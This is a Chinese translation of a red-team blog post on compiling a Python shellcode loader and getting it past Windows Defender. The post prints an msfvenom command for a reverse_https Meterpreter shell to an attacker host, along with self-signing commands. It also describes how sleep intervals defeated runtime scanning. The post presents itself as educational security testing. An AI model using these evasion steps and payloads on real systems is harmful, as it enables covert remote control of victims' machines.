




# Pythonic 恶意软件:通过编译的可执行文件逃避检测

> 原文：<https://infosecwriteups.com/pythonic-malware-evading-detection-with-compiled-executables-20194ab0719c?source=collection_archive---------2----------------------->


照片由[科比·门德斯](https://unsplash.com/@kobbyfotos?utm_source=medium&utm_medium=referral)在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄

在攻击性安全约定期间创建 Python 可执行文件曾经是一种有效的规避方法。然而，这种策略在现代 Windows 终端上变得越来越困难。

事实上，即使是良性的程序似乎也会在接触磁盘后立即被阻止。这只是 red teamers 从流行的框架如[面纱规避](https://github.com/Veil-Framework/Veil-Evasion)转向更大更好的东西的原因之一。

这篇文章回顾了编译的 Python 在攻击性安全测试中的使用，并分享了我在完全修补的 Windows 10 系统上启动 Meterpreter shells 来对抗 Windows Defender 的经验。

# 恶意软件创建

鉴于我主要关注的是编译后的可执行文件中的规避策略，我创建了一个简单的外壳代码加载器作为我的“恶意软件”。该脚本调用常见的 Windows 函数，如`VirtualAlloc` & `CreateThread`在当前进程中本地注入外壳代码。

有效载荷本身利用了通过端口 443 的`reverse_https`连接，由 MSFVenom 生成，没有任何编码或混淆技术:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.157 LPORT=443 -f py
```

在这一点上，我对代码没有多少信心，认为它肯定会被检测到。但是，当尝试直接执行 Python 脚本时，不会触发任何警报，并且会建立反向连接。



作者照片

# 编译 Python

尽管触发了一个成功的 Meterpreter shell，但我不能指望 Python 安装在每个 Windows 工作站上。因此，下一步是编译源代码——使其可执行，而不需要主机上的任何额外资源。

使用`pyinstaller`、 `py2exe`或`cx_freeze`等工具编译 Python。这些通过将脚本的字节码版本(`.pyc`)和所有需要的依赖/解释器打包到一个单独的`.exe`文件中来实现:

```
pyinstaller --onefile .\shellcode_loader.py
```

不幸的是，在将新编译的`shellcode_loader.exe`下载到目标系统上时，我没走多远就收到了以下警告:



作者照片

# 逃避检测

## 代码签名

此时，我考虑了避免检测的潜在策略，并研究了用自签名证书对可执行文件进行签名。

使用 Visual Studio Developer 命令提示符，我执行了以下命令来生成一个证书并对`shellcode_loader.exe`文件进行签名。

```
>> makecert /r /h 0 /eku "1.3.6.1.5.5.7.3.3,1.3.6.1.4.1.311.10.3.13" /e 12/12/2025 /sv m8.pvk m8.cer>> pvk2pfx /pvk m8.pvk /spc m8.cer /pfx m8.pfx>> signtool sign /a /fd SHA256 /f m8.pfx shellcode_loader.exe
```

现在，查看文件的属性，“Joe's-Software-Emporium”列在数字签名详细信息— *(微软默认)*下。这样，可执行文件就可以被下载而不被检测到。



作者照片

## 睡眠间隔

尽管可以下载该文件，但 Windows Defender 在尝试执行时仍会标记该程序。这时候我想起了阅读 [F-Secure 关于逃避 Windows Defender 运行时扫描的帖子](https://labs.f-secure.com/blog/bypassing-windows-defender-runtime-scanning/)，其中提供了许多很好的提示。

简而言之，我发现在 Win32 API 调用之间添加各种睡眠间隔绕过了运行时扫描，并成功触发了一个工作的反向 shell。



作者照片

# 结论

在真正的 red 团队合作中，编译的 Python 可执行文件不会是我的第一选择。然而，这是一个有趣的概念验证，可能在攻击性安全测试的其他领域有用。

我的 `shellcode_loader.py`脚本的最终副本可以在[**GitHub**](https://gist.github.com/m8sec/864c1feb9718e21df06e9bc5bb52f60f) 上找到。

感谢阅读！在 [m8sec.dev](https://m8sec.dev) 了解更多关于我的信息，并关注更多攻击性安全内容。

*免责声明:所有内容仅用于教育目的。作者不对信息的使用负责。不要对你不拥有或没有明确许可的系统进行测试。*